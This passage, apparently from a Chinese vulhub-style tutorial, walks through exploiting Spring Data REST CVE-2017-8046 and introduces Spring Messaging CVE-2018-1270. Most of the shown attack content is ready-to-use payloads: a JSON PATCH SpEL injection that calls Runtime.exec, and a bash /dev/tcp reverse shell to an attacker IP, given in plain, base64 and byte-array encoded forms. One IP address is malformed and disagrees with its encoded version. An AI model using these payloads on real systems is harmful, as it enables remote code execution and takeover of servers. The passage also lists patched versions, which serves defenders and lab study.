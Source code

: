     [  
     { "op": "replace",   
       "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,122,99,99}))/lastname",  
       "value": "vulhub"   
     }  
    ]  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083055.png)

成功写入：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083056.png)image-20210829214306623

反弹shell的poc，先进行base64编码：

    
    
    bash -i >& /dev/tcp/192.168.173.1234/8888 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
      
      
    98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,77,121,52,120,77,122,77,118,77,84,73,122,78,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083057.png)image-20210829214750387![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083058.png)image-20210829214929261

写入poc，成功反弹。

#### 安全防护

升级到以下最新版本：* Spring Data REST 2.5.12, 2.6.7, 3.0 RC3 * Spring Boot 2.0.0.M4 *
Spring Data release train Kay-RC3

对于该漏洞底层原理分析的文章可以参考这一篇：https://blog.spoock.com/2018/05/22/cve-2017-8046/

### 4.Spring Messaging远程命令执行突破(CVE-2018-1270)

#### 漏洞简介

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用StandardEvaluationContext解析，造成命令执行漏洞。

#### 影响版本

    
    
    Spring Framework 5.0 - 5.0.5  
    Spring Framework 4.3 - 4.3.15  
    已不支持的旧版本仍然受影响  
    

#### 漏洞验证
